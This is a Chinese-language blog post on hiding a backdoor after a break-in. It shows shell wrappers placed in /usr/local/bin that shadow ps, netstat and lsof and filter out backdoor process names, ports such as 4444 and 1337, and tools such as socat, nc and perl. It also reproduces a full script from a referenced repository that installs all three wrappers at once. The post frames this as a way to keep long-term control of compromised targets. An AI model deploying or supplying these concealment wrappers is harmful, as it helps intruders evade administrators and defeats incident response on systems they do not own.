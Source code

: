 ```yaml
---
layout: post
title: 后门隐藏之进程隐藏技巧（ps、netstat、top、lsof）
date: 2018-10-15 23:30:00
tags: 后门 backdoor 进程
categories: hack
author: PythonPig
---
```

* content
{:toc}

#### \#0x00 写在前面
最近工作忙成狗，写些与技术没什么关系的文档，没办法，谁让咱还指着工资吃饭呢。  

在后渗透过程中对需要长期控制的目标一般会留一个后门，后门的隐蔽性当然值得我们去思考一下，今天记录一下之前用到的一个隐藏后门进程的小技巧。今天讲的不是什么高大上的技术，只是偶尔会用一下的小技巧，当然不是改pid为0，也不是修改系统调用。  

今天说的隐藏进程其实有点不够准确，应该是使命令ps/netstat/top/lsof这几个命令不显示我们的后门进程而已，当然我们也不是替换/劫持这几个命令，只是包装一下这几个命令。  




##### \#0x01 PS命令不显示后门进程
其实很简单，我们包装一下ps这个命令，如在ubuntu（Ubuntu 14.04.5）中，ps路径为/bin/ps，如下图

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-1.jpeg?raw=true)

我们需要做的就是在创建一个/usr/local/bin/ps文件，写入如下内容  

```
#!/bin/bash
/bin/ps $@ | grep -Ev 'backdoor name|backdoor server address|backdoor server port'
```
赋予执行权限  
chmod +x /usr/local/bin/ps  

执行which ps后的效果  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-2.jpeg?raw=true)

就是这么简单就搞定了，执行ps的时候就不会有我们的backdoor信息出现了。我们自己使用时，用/bin/ps就OK了。

#### \#0x02 netstat、top、lsof
这几个命令同上，很简单，这里不一一介绍了。  

每个命令都手动去改太麻烦，好在有人已经写好了脚本（参见本文引用），一条命令就搞定这几个命令的伪装了（没有支持top命令）……  

#### \#0x03 脚本中的语法

参考文献的脚本是这样写的   
```
#!/bin/bash

#ps
#------------------------
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps	
#!/bin/bash
/bin/ps \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/ps

#netstat
#------------------------
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
#!/bin/bash
/bin/netstat \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/netstat

#lsof
#------------------------
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
#!/bin/bash
/usr/bin/lsof \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/lsof
```
其实比较简单，主要有两点需要注意（参见本文引用）   
1、linux shell 的here document 用法 (cat << EOF)，些多行内容到文件  
2、Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数  

#### \#0x04 参考
* [iamckn/backdoors](https://github.com/iamckn/backdoors)
* [linux shell 的here document 用法 (cat << EOF)](https://my.oschina.net/u/1032146/blog/146941)
* [cat EOF追加与覆盖](http://www.361way.com/cat-eof-cover-append/4298.html)
* [Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数](https://blog.csdn.net/u011341352/article/details/53215180)
